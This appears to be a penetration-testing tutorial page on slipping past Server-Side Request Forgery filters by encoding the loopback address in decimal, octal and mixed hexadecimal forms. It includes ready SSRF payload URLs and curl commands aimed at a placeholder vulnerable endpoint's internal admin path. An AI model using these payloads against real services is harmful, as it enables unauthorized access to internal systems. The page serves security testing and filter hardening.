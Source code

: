 ```yaml
---
title: Bypass SSRF Filters with Encoded IP Addresses
description: Learn how to bypass SSRF filters using decimal, octal, and mixed encoded
  IP addresses.
keywords:
- SSRF
- encoded IP address
- filter bypass
- decimal IP
- octal IP
- hexadecimal IP
- web security
- numeric encoding
---
```


# Bypass Using an Encoded IP Address

## Context

In this article, we will explore a method to bypass Server-Side Request Forgery (SSRF) filters by encoding IP addresses in alternative numeric formats. This technique leverages the fact that web servers can resolve non-standard IP encodings to valid internal addresses, often bypassing filters that check for standard patterns. Before proceeding, it is assumed that you have a working knowledge of standard IPv4 and IPv6 address formats, URL encoding and decoding, as well as basic SSRF exploitation workflows.

## Theory

### IP Address Numeric Encodings

IP addresses are typically written in a dot-decimal format, but they can also be represented in various numeric encodings such as decimal, octal, and hexadecimal, or even as a single integer. This methodology exploits the tendency of web servers to interpret and resolve these non-standard formats into valid addresses internally.

#### Definition

IP addresses can be expressed in formats other than the regular dot-decimal notation. They can be represented as a decimal number, an octal number, hexadecimal, or as a single integer number. Each of these representations can potentially be resolved by web servers into valid addresses, thus bypassing traditional security filters that overlook these formats.

#### Core Principle

Many servers are capable of interpreting these encoded representations correctly, which can be used to access internal resources that standard filters might attempt to block.

#### Vulnerability Model

SSRF filters often rely on straightforward pattern matching to identify IP addresses. They may not account for encoded representations, thereby allowing attackers to bypass these security checks by using alternative numeric encodings.

### Filter Bypass via Encoded IPs

When users supply IP addresses in encoded formats, web servers can decode and connect to the intended internal resources. SSRF attacks can benefit from this behavior to access otherwise restricted areas.

#### Attack Sequence

The attacker encodes an IP address using one of the numeric methods and sends a request. The receiving web server decodes this and connects to the intended target. By exploiting this vector, attackers can bypass input validation and communicate with internal systems.

#### Filter Bypass Logic

Filters using regex or basic string matching may not account for these encoded or integer forms of IP addresses, making it easier for attackers to bypass security measures.

## Practice

### Bypassing SSRF Filters with Decimal-Encoded IP

- **Convert 127.0.0.1 to its decimal representation: 2130706433.** This is accomplished by calculating `(127*256^3)+(0*256^2)+(0*256^1)+(1*256^0)`.

- **Use the decimal IP in the SSRF payload.** Example:
    ```http
    http://2130706433/admin
    ```

- **Send the payload to the SSRF endpoint.** Using curl:
    ```bash
    curl 'http://vulnerable-app/ssrf?url=http://2130706433/admin'
    ```
  By doing this, you should be able to access internal resources using the decimal-encoded IP.

### Bypassing SSRF Filters with Octal-Encoded IP

- **Convert 127.0.0.1 to octal: 0177.0.0.01.** Each octet reflects its octal representation.

- **Use the octal IP in your payload.** Example:
    ```http
    http://0177.0.0.01/admin
    ```

- **Send the octal-encoded IP to the SSRF endpoint.**
    ```bash
    curl 'http://vulnerable-app/ssrf?url=http://0177.0.0.01/admin'
    ```
  This allows you to reach the target resource internally by using an octal representation.

### Bypassing SSRF Filters with Mixed Numeric IP Encoding

- **Example of a mixed representation: 127.0.0.0x1.** This employs a combination of decimal and hexadecimal notations.

- **Use the mixed encoding in the payload.** Example:
    ```http
    http://127.0.0.0x1/admin
    ```

- **Send the mixed-encoded IP to the SSRF endpoint.**
    ```bash
    curl 'http://vulnerable-app/ssrf?url=http://127.0.0.0x1/admin'
    ```
  This technique helps evade filters that check for uniform IP patterns.

## Tools

- **curl**
- **Burp Suite**
- **CyberChef**